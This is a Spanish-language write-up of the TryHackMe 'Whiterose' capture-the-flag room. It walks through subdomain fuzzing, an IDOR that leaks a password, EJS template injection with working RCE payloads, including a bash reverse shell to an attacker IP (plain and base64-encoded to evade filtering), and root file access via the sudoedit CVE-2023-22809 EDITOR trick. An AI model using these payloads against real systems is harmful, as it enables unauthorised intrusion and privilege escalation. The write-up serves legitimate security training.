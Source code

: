 
![Imagen1](attachments/Pasted%20image%2020250203213856.png)

#easy

******

Al unirnos al room de THM nos dan un username y password que será importantes tenerlos en cuenta:

~~~bash
username: Olivia Cortez
password: olivi8
~~~


Realizamos un escaneo con **Nmap** para poder observar los servicios que usan:

~~~bash
sudo nmap -sS --min-rate 5000 --open -vv -p- -n -Pn whiterose.thm
~~~

![Imagen1](attachments/Pasted%20image%20250203214511.png)

Como podemos ver, tienen el `22` y `80` abiertos. Al ingresar a la pagina web esta nos redirige a otra:

`cyprusbank.thm`

![[Pasted image 20250203214630.png]]

Pasamos a realizar un fuzzing de directorios con gobuster, pero no nos muestra nada interesante.

~~~bash
gobuster dir -u 'http://cyprusbank.thm/' -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
~~~

Con ffuf realizamos fuzzing de subdominios y vemos que nos dan 2 subdominios:

`www.cyprusbank.thm` `admin.cyprusbank.thm`

~~~bash
ffuf -u 'http://cyprusbank.thm/' -H "Host: FUZZ.cyprusbank.thm" -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -fw 1
~~~

![[Pasted image 20250203215214.png]]

>[!note]
>`-fw` nos ayuda a descartar falsos positivos en el fuzzing


`www.cyprusbank.thm` no hay nada, sin embargo en `admin.cyprusbank.thm` nos muestra un login donde podemos intentar poner las credenciales del inicio.


![[Pasted image 20250203215438.png]]

Al ingresar con la cuenta de Olivia podemos ver varias cosas interesantes y donde podemos encontrar una de las primeras flag del room.

![[Pasted image 20250203220037.png]]

No podemos ingresar a settings, al parecer no tenemos privilegios.

![[Pasted image 20250203220137.png]]

Pero en mensajes podemos ver algo que me resulto interesante:

![[Pasted image 20250203220242.png]]

En la url podemos ver `c=5` y al cambiar los valores encontramos un IDOR que nos deja observar otros mensajes:

![[Pasted image 20250203220405.png]]

Al explorarlo mas al fondo, damos con una conversación donde el user `Gayle Bev` escribe su password `p~]P@5!6;rs558:q`, y al ingresar con su sesión podemos obtener la primera flag.

*****

Una vez iniciado la sesión de `Gayle Bev` podemos ingresar al apartado de de settings de la web page. En esta podemos actualizar passwords de usuarios:

![[Pasted image 20250203221334.png]]

Al revisar la solicitud con Burpsuite podemos modificar varios puntos para checar la posibilidad de XSS o SSTI. Interceptamos la request y omitimos el passwords y podemos ver que nos contesta con el siguiente error:

![[Pasted image 20250203221618.png]]

En este mensaje podemos observar que están usando `.ejs` (Embedded JavaScript templates), lo que indica que el servidor renderiza plantillas dinámicas. Dado que `.ejs` es vulnerable a **Server-Side Template Injection (SSTI)** si no se maneja correctamente la entrada del usuario, podemos buscar payloads específicos para explotar este tipo de vulnerabilidad en `ejs` y evaluar si es posible ejecutar código en el servidor.

~~~javascript
%%1");process.mainModule.require('child_process').execSync('calc');//
~~~

https://github.com/mde/ejs/issues/720

Modificamos el payload para realizar un curl a nuestro Python server.

~~~js
name=a&password&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('curl http://10.8.27.189:6666');//
~~~

![[Pasted image 20250203222756.png]]

![[Pasted image 20250203222807.png]]

Con esto confirmamos que es un **SSTI**, ahora podemos intentar para explotar una RCE, para esto podemos crear un reverse Shell (https://www.revshells.com/):

![[Pasted image 20250203223016.png]]

Modificamos nuestro payload para que ejecute la reverse:

~~~js
name=a&password&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('bash -i >& /dev/tcp/10.8.27.189/6666 0>&1');//
~~~

Pero al parecer nos esta filtrando la request, entonces aquí podemos encodearlo en base64 para intentar pasarlo.

~~~js
name=a&password=b&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('bash -c "echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjguMjcuMTg5LzY2NjYgMDA+JjE= | base64 -d | bash"');//  
~~~

![[Pasted image 20250203224626.png]]

Listo, tenemos acceso a la maquina donde podemos encontrar la siguiente flag, pero antes podemos mandar a llamar una Shell interactiva con python:

~~~python
python3 -c 'import pty; pty.spawn("/bin/bash")'
~~~

![[Pasted image 20250203224739.png]]

******
Ahora para escalar privilegios podemos observar primero que podemos hacer con sudo:

~~~bash
sudo -l
~~~

Y aqui podemos ver algo que podemos explotar:

![[Pasted image 20250203224920.png]]

Podemos checar la versión que usa `sudoedit` con `sudoedit -V` y podemos ver que usa la versión `1.9.12p1`

![[Pasted image 20250203225015.png]]

Al investigar encontramos que existe un CVE para esta versión de `sudoedit`

~~~bash
CVE-2023-22809
~~~

Ahora con lo que encontramos acerca de esta CVE podemos cambiar la variable para que nos muestre la flag de root:

~~~bash
export EDITOR="vi -- /root/root.txt"
~~~

Ya solo queda ejecutar el comando que vimos al principio y aquí tendremos nuestra siguiente y ultima flag:

~~~bash
sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
~~~

